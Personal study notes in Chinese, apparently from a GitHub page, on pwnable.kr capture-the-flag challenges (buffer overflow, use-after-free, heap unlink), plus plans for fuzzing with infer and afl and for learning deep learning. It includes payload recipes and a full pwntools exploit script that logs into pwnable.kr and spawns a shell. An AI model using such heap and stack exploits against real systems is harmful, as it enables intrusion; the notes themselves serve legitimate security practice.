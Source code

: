 # pwn kr
  - bof(buffer overflow)
    - gdb 调试显示 距离 52 + address
    - payload = 52 * 'A' + address
  - uaf(use after free)
    - main中定义了两个类，然后输入3先free掉
    - 在输入2中输入payload, 因为use after free
    - 其中注意下introduce函数是按栈的顺序进行的， payload要注意这一点
    - 所以我们需要再次分配下
    - 再输入payload后，在输入1，即可运行我们的payload
    - [参考链接](http://blog.csdn.net/qq_20307987/article/details/51511230)
  - unlink
    - 因为是双链表结构，
    - 所以溢出之后还需要把溢出后的地址改一下
    - poc如下
```python
from pwn import *
context(log_level="debug")

shell_addr = 0x080484eb

s =  ssh(host='pwnable.kr',
         port=2222,
         user='unlink',
         password='guest'
        )
p = s.process("./unlink")
p.recvuntil("here is stack address leak: ")
stack_addr = p.recv(10)
stack_addr = int(stack_addr,16)
p.recvuntil("here is heap address leak: ")
heap_addr = p.recv(9)
heap_addr = int(heap_addr,16)
payload = p32(shell_addr)
payload += 'a'*12
payload += p32(heap_addr + 12)
payload += p32(stack_addr + 0x10)
p.send(payload)
p.interactive()
```



# pwn测试步骤
  - [infer](http://fbinfer.com/docs/getting-started.html) 进行白盒审计
  - afl或者自写的fuzz工具进行fuzz
  - 浏览器fuzz的工具有点无语
  - 学习一下google的fuzz工具以及相关东西
  - 手工的话就是去需要看代码,但是感觉看了也问题不大(主要是对c++等trick不熟，还是对web熟悉一点，而且好多东西要做。。)
  - 趁着自动化fuzz的时间进行下一步android相关的学习，然后就是深度学习了
  
# 深度学习
  - 等书到了就看书，但感觉用处不大
  - 还有深度学习的原理不太想碰(有时间要去补补)
  - kaggle的手写字符集进行一次训练
  
# fuzz需要CPU和内存， 深度学习需要CPU，内存，显卡，硬盘
# 该去配台好机器，但感觉买了要去打游戏。。
